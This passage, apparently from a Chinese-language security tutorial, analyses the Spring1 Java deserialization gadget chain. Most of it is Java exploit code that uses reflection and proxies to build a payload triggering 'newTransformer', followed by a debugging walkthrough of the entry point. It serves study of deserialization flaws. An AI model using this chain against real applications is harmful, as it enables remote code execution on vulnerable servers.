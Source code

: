 ```bash
        // typeTemplateProxy.hashCode();

        // 接下来代理  TypeProvider 的 getType() 方法，使其返回我们创建的 typeTemplateProxy 代理类
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class<?>       clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        // Util.SeralizeUtil.writeObjectToFile(objects,"spring1");
        Util.SeralizeUtil.readFileObject("spring1");
```

接下来通过调试分析一下完整的 Gadget 链触发的过程。

程序反序列化的入口点位于：`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider#readObject`。当前的`provider`是一个`AnnotationInvocationHandler`动态代理类，`memberValues`存储的`key`为 getType，对应的`value`是一个 ObjectFactoryDelegatingInvocationHandler 动态代理的类，其中的`objectFactory`成员变量同样也是一个由`AnnotationInvocationHandler`动态代理的类。
